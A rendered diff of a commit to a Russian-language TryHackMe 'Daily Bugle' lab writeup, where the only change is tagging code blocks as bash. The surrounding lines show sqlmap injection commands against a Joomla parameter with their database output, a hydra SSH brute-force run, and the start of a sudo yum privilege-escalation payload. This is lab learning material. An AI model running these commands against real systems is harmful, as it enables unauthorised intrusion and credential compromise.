

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Lin Hard - DailyBugle/writeup.md, 2 parts joined by grey strips. Shown at 81% size. Drawn GitHub-style.

````diff
--- a/Lin Hard - DailyBugle/writeup.md
+++ b/Lin Hard - DailyBugle/writeup.md
@@ -99,17 +99,17 @@ Disallow: /tmp/
 `http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`
 
 Предлагаемая команда
-```
+```bash
 sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
 ```
 
 Но `boolean-based blind` и `time-based blind` будут долго обрабатываться, поэтому немного скорректировал команду
-```
+```bash
 sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE --dbs -p list[fullordering]
 ```
 
 В результате нашел 5 баз данных
-```
+```bash
 available databases [5]:
 [*] information_schema
 [*] joomla
@@ -119,10 +119,10 @@ available databases [5]:
 ```
 
 **mysql db tables**
-```
+```bash
 sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE -D mysql --tables -p list[fullordering]
 ```
-```
+```bash
 Database: mysql
 [24 tables]
 +---------------------------+
@@ -268,7 +268,7 @@ No password hashes left to crack (see FAQ)
 ```
 
 И есть 1 пользователь в /home
-```
+```bash
 ls -la /home
 total 0
 drwxr-xr-x.  3 root     root      22 Dec 14  2019 .
@@ -277,7 +277,7 @@ drwx------.  2 jjameson jjameson  99 Dec 15  2019 jjameson
 ```
 
 Проверяю креды
-```
+```bash
 ┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
 └─$ hydra -l jjameson -P ./pass.txt -t 2 ssh://10.10.130.255
 Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
@@ -291,7 +291,7 @@ Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-08 03:43:
 ```
 
 И получаю доступ по ssh для jjameson
-```
+```bash
 [jjameson@dailybugle ~]$ ls -la
 total 16
 drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
@@ -306,7 +306,7 @@ lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
 ```
 
 ### sudo -l
-```
+```bash
 [jjameson@dailybugle ~]$ sudo -l
 User jjameson may run the following commands on dailybugle:
     (ALL) NOPASSWD: /usr/bin/yum
@@ -314,7 +314,7 @@ User jjameson may run the following commands on dailybugle:
 
 Эксплуатация описана тут: `https://gtfobins.github.io/gtfobins/yum/`
 В данном случае нужно это:
-```
+```bash
 TF=$(mktemp -d)
 cat >$TF/x<<EOF
 [main]
````
Also changed, not shown: other parts of Lin Hard - DailyBugle/writeup.md (+9 -9 lines).
